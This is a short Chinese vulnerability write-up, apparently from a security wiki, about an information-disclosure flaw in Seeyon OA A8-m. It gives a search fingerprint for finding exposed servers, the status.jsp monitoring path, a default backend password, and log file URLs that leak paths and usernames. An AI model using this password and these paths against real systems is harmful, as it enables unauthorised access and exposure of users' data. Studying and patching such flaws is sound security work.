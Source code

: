# 致远OA A8 status.jsp 信息泄露漏洞

## 漏洞描述

致远OA A8-m 存在状态监控页面信息泄露，攻击者可以从其中获取网站路径和用户名等敏感信息进一步攻击

## 漏洞影响 

<a-checkbox checked>致远OA A8-m</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="A8-m"</a-checkbox></br>

## 漏洞复现

访问监控页面

```plain
/seeyon/management/status.jsp
```

![img](/assets/PeiQi-Wiki/img/zhiyuan-32.png)



<a-checkbox checked>后台密码为 WLCCYBD@SEEYON</a-checkbox></br>

<a-checkbox checked>登录后通过如下url获得一些敏感信息</a-checkbox></br>

```plain
/seeyon/management/status.jsp
/seeyon/logs/login.log
/seeyon/logs/v3x.log
```

![img](/assets/PeiQi-Wiki/img/zhiyuan-33.png)



![img](/assets/PeiQi-Wiki/img/zhiyuan-34.png)



![img](/assets/PeiQi-Wiki/img/zhiyuan-35.png)